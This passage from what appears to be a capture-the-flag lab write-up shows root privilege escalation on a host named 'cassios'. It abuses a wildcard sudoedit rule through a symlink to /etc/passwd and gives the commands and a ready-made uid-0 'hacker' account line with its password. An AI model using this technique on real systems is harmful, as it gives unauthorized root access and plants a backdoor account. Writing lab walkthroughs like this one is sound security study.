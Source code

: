 ## Privilege Escalation

### Sudoedit Double Wildcard --> Arbitrary Write

I checked our `sudo` privileges, and saw this:

```
[samantha@cassios ~]$ sudo -l
Matching Defaults entries for samantha on cassios:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="QTDIR
    KDEDIR"

User samantha may run the following commands on cassios:
    (root) NOPASSWD: sudoedit /home/*/*/recycler.ser
```

We can abuse this by creating a symlink to the `/etc/passwd` file named as `recycler.ser` and add a new `root` user to it using this line:

```
hacker:$1$1pSPZTFk$gYPHTQbbBddT5WjcvIZNl/:0:0::/root:/bin/sh
```

Run the following commands:

```
[samantha@cassios ~]$ mkdir symlink
[samantha@cassios ~]$ cd symlink/                                                            
[samantha@cassios symlink]$ ln -s /etc/passwd recycler.ser
[samantha@cassios symlink]$ ls
recycler.ser
[samantha@cassios symlink]$ sudoedit /home/samantha/symlink/recycler.ser 
```

This would bring up the `/etc/passwd` file, where we can add the new `hacker` user and use `:wq` to save the changes made. Then, `su` to hacker with `hello123` as the password:

<figure><img src="../../../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>

Rooted!
